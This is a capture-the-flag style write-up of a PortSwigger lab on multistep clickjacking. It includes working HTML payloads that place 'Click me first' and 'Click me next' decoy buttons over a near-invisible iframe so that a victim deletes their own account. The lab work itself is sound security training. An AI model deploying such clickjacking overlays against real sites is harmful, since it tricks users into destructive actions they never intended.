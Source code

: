 
# 8 - Multistep clickjacking

This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

You can log in to the account yourself using the following credentials: wiener:peter

Note: The victim will be using Chrome so test your exploit on that browser.

---------------------------------------------

References:

- https://portswigger.net/web-security/csrf

- https://portswigger.net/web-security/clickjacking 

---------------------------------------------

Generated link: https://0a910056047f851e816330fc004400af.web-security-academy.net/



![img](images/8%20-%20Multistep%20clickjacking/1.png)


I took the example from https://portswigger.net/web-security/clickjacking:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

And adapted it to this example:

```
<head>
    <style>
        #target_website {
            position:relative;
            width:100%;
            height:100%;
            opacity:0.0001;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:530px;
            left:400px;
        }
       #button2 {
            position:absolute;
            top:330px;
            left:570px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
    </iframe>
</body>
```

If you host it in the exploit server after clicking “Click me first” button it takes to the confirmation page:



![img](images/8%20-%20Multistep%20clickjacking/2.png)

Here, clicking the “Click me next” button the user would be deleted:



![img](images/8%20-%20Multistep%20clickjacking/3.png)

But if you send this, the user does not get deleted, probably because we used width:100% and height:100%, so the payload depends on the screen resolution. I will use a small iframe size with fixed size of 500x600 px:

```
<head>
    <style>
        #target_website {
            position:relative;
            //width:100%;
            //height:100%;
            width:500px;
            height:600px;
            opacity:0.1;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:495px;
            left:55px;
        }
       #button2 {
            position:absolute;
            top:290px;
            left:200px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
    </iframe>
</body>
```

First button looks good:



![img](images/8%20-%20Multistep%20clickjacking/4.png)

And the second one as well:



![img](images/8%20-%20Multistep%20clickjacking/5.png)

Change the opacity to 0.00001, send it and this time we get the lab solved message.
